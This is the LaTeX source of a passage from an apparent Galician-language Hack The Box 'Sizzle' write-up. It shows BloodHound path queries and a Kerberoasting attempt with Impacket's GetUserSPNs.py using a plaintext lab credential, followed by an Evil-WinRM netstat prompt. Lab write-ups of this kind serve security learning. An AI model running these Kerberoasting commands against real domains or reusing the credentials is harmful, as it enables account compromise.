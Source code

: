 \documentclass[a4paper]{article}
\newcommand{\sharphoundmrlkyPathsfromOwnedsizzle}{sharphound_mrlky_Paths_from_Owned_sizzle.png}
\newcommand{\sharphoundmrlkyPathstoHeresizzle}{sharphound_mrlky_Paths_to_Here_sizzle.png}
\newcommand{\sharphoundkerberoastableaccountssizzle}{sharphound_kerberoastable_accounts_sizzle.png}
\begin{document}
\begin{enumerate}[label=(\arabic*)]
                \item Buscamos como chegar a acceder ao sistema como \textit{mrlky}. Para iso \textit{Shortest Paths to Here from Owned}, pero non atopamos nada. Entón intentamos con \textit{Shortest Paths to Here} e tampouco. Kerberos? Buscamos \textit{List all Kerberoastable accounts}. E si, obtemos que o principal \textit{mrlky} é kerberoastable.

       \begin{figure}[h]
       \begin{minipage}{0.48\textwidth}
                \centering
                \texttt{[image: \\sharphoundmrlkyPathsfromOwnedsizzle]}
                \caption{Paths from Owned}
       \end{minipage}\hfill
       \begin{minipage}{0.48\textwidth}
                \centering
                \texttt{[image: \\sharphoundmrlkyPathstoHeresizzle]}
                \caption{Paths to Here}
       \end{minipage}
       \end{figure}

\clearpage
       \begin{figure}[h]
                \centering
                \texttt{[image: \\sharphoundkerberoastableaccountssizzle]}
                \caption{Kerberoastable Accounts}
        \end{figure}


        \begin{lstlisting}[language=Bash, caption=KerberosAsting Attack]
$ GetUserSPNs.py htb.local/amanda:Ashare1972 -request -dc-ip 10.10.10.103
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name   MemberOf                                               ...
--------------------  -----  -----------------------------------------------------  ...
http/sizzle           mrlky  CN=Remote Management Users,CN=Builtin,DC=HTB,DC=LOCAL  ...



[-] CCache file is not found. Skipping...
[-] [Errno Connection error (10.10.10.103:88)] [Errno 110] Connection timed out\end{lstlisting}

O erro de conexión é normal xa que sabiamos que o porto TCP 88 non estaba aberto. Entón:

        \begin{lstlisting}[language=Bash, caption=netstat]
*Evil-WinRM* PS C:\Users\amanda\Documents> netstat -n


\end{lstlisting}
\end{enumerate}
\end{document}
